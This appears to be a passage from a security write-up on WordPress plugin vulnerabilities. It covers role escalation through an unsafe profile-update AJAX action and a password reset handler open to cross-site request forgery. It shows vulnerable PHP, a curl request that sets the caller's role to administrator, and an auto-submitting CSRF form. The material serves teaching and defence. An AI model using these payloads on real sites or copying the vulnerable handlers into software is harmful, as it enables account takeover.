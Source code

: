 ```php
}
```

To exploit this, any authenticated user just needs to perform a POST request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `wp_update_user` function and change their own role.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=custom_update_profile -d "data[first_name]=test&data[role]=administrator" -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```

It is also possible to update a user's password by specifying the `user_pass` value in the `$userdata` parameter array. This could also lead to account takeover if we can control the `ID` value on the `$userdata` parameter to specify the targeted user.

Other than that, an attacker can also modify `user_activation_key`, `user_email`, or `user_login` to possibly take over their account.

## Insecure Password Reset

Similar to the custom registration process, many plugins or themes also implement a custom reset password process. This case is mostly found in a page builder plugin as one of the shortcode or block features. 

One of the ways to reset a user's password is through a [`reset_password`](https://developer.wordpress.org/reference/functions/reset_password/) function. This function accepts `$user` parameter as the targeted user object and `$new_pass` parameter as the new password value for the user.

The function itself is just a wrapper to another function [`wp_set_password`](https://developer.wordpress.org/reference/functions/wp_set_password/) which is the core function to set the new password for the user. This function accepts `$user_id` parameter as the targeted user ID and `$password` parameter as the new password value for the user.

Example of vulnerable code :

```php
add_action("wp_ajax_reset_your_password", "reset_your_password");

function reset_your_password(){
    $user_id = get_current_user_id();
    wp_set_password($_POST["new_password"], $user_id);
    echo "reset password success";
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do a reset password action with an attacker-controlled password value.

```html
<html>
  <body>
    <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=reset_your_password" method="POST">
      <input type="hidden" name="new_password" value="attacker_controlled_value" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
``` 
